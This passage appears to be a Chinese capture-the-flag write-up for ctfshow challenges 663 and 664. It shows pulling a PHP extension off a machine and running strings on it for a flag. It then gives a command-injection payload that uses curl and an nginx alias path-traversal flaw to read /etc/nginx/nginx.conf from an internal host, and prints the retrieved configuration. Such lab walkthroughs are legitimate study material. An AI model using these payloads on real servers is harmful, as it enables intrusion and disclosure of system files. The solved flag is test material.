 前三位数为随机数，scan.py



# 663

发现第二台机子上有ctfshow拓展

![image-20220330160108414](https://img-blog.csdnimg.cn/img_convert/e08f48e7736faae1db19e3fdc05505c2.png)

拓展地址 /usr/local/lib/php/extensions/no-debug-non-zts-20180731

![image-20220330160159552](https://img-blog.csdnimg.cn/img_convert/d606937ab755fed89c4eaede27430639.png)

下载下来

![](https://img-blog.csdnimg.cn/img_convert/93f2a01394e589d08e79bc1b523a5a44.png)

strings一下

![image-20220330164246531](https://img-blog.csdnimg.cn/img_convert/950c3791c7cefd18902068f3f36035a9.png)

ctfshow{fa5cc1fb0bfc986d1ef150269c0de197}

# 664

读取nginx配置文件

```
a=echo `curl http://172.2.39.5:80/public../etc/nginx/nginx.conf`;
```

```
daemon off;

worker_processes  auto;

error_log  /var/log/nginx/ctfshow_web_error_log_file_you_never_know.log warn;


events {
    worker_connections  1024;
}

http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    keepalive_timeout  65;
    log_format  main  '[$time_local]:$remote_addr-$request-$status';
    access_log /var/log/nginx/ctfshow_web_access_log_file_you_never_know.log main;
    server {
        listen       80;
        server_name  localhost;
        root         /var/www/html;
        index index.php;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

        location /public {
            autoindex on;
            alias /public/;
        }

```